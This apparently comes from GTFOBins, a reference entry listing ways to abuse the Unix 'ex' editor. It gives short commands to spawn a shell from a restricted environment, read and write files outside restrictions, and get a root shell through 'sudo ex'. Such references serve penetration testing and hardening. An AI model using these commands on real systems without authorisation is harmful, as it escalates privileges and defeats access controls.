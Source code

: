 # GTFOBin: ex

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ex
!/bin/sh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
ex file_to_write
a
DATA
.
w
q
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
ex file_to_read
,p
q
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ex
!/bin/sh
```